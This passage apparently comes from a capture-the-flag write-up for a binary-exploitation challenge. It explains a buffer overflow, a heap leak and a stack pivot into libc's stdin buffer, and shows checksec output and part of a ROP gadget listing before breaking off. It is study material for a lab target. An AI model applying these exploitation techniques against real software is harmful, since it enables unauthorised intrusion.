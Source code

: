 A Dockerfile is also provided which shows that the server is running a container based on a Fedora image.

## Stack Pivoting

The program leaks the address of a chunk allocated in the heap, and it does a 32-byte read into a 12-byte buffer.
If you looked at the stack layout, you would see that the read is just enough to overwrite the return address.
In order to do ROP with more than one gadget, we can use a `leave; ret` gadget to stack pivot to the libc stdin buffer in the heap.
The address of the buffer can be calculated from the leak.

## Leaking libc

`checksec` shows that the binary has no PIE, so we can use any gadgets in it without a leak.

<pre><code>$ checksec stuff
[<span style="color:#005DD0"><b>*</b></span>] &apos;/home/ctf/lactf-archive/2023/pwn/stuff/stuff&apos;
    Arch:     amd64-64-little
    RELRO:    <span style="color:#A2734C">Partial RELRO</span>
    Stack:    <span style="color:#C01C28">No canary found</span>
    NX:       <span style="color:#26A269">NX enabled</span>
    PIE:      <span style="color:#C01C28">No PIE (0x400000)</span>
</code></pre>

Let's look at the available gadgets.

<pre><code>$ xgadget stuff
TARGET <span style="color:#C01C28">0</span> - <span style="color:#C061CB">&apos;</span><span style="color:#2AA1B3">stuff</span><span style="color:#C061CB">&apos;:</span> <span style="color:#A2734C">ELF</span><span style="color:#C061CB">-</span><span style="color:#A2734C">X64</span><span style="color:#C061CB">,</span> <span style="color:#26A269">0x00000000401090</span> entry<span style="color:#C061CB">,</span> <span style="color:#2A7BDE">581</span><span style="color:#C061CB">/</span><span style="color:#2A7BDE">1</span> executable bytes<span style="color:#C061CB">/</span>segments 

<span style="color:#26A269">0x0000000040111e</span><span style="color:#C061CB">:</span> <span style="color:#2AA1B3">adc</span><span style="color:#D0CFCC"> </span><span style="color:#C061CB">[</span><span style="color:#A2734C">rax</span><span style="color:#C061CB">],</span><span style="color:#D0CFCC"> </span><span style="color:#A2734C">edi</span><span style="color:#C061CB">; </span><span style="color:#2AA1B3">test</span><span style="color:#D0CFCC"> </span><span style="color:#A2734C">rax</span><span style="color:#C061CB">,</span><span style="color:#D0CFCC"> </span><span style="color:#A2734C">rax</span><span style="color:#C061CB">; </span><span style="color:#2AA1B3">je</span><span style="color:#D0CFCC"> </span><span style="color:#005DD0">short</span><span style="color:#D0CFCC"> </span><span style="color:#26A269">0x0000000000401130</span><span style="color:#C061CB">; </span><span style="color:#2AA1B3">mov</span><span style="color:#D0CFCC"> </span><span style="color:#A2734C">edi</span><span style="color:#C061CB">,</span><span style="color:#D0CFCC"> 0x404050</span><span style="color:#C061CB">; </span><span style="color:#2AA1B3">jmp</span><span style="color:#D0CFCC"> </span><span style="color:#A2734C">rax</span><span style="color:#C061CB">; </span>
<span style="color:#26A269">0x000000004010b0</span><span style="color:#C061CB">:</span> <span style="color:#2AA1B3">adc</span><span style="color:#D0CFCC"> </span><span style="color:#A2734C">eax</span><span style="color:#C061CB">,</span><span style="color:#D0CFCC"> 0x2f3b</span><span style="color:#C061CB">; </span><span style="color:#2AA1B3">hlt</span><span style="color:#C061CB">; </span><span style="color:#2AA1B3">nop</span><span style="color:#D0CFCC"> </span><span style="color:#C061CB">[</span><span style="color:#A2734C">rax</span><span style="color:#D0CFCC">+</span><span style="color:#A2734C">rax</span><span style="color:#C061CB">]; </span><span style="color:#2AA1B3">endbr64</span><span style="color:#C061CB">; </span><span style="color:#2AA1B3">ret</span><span style="color:#C061CB">; </span>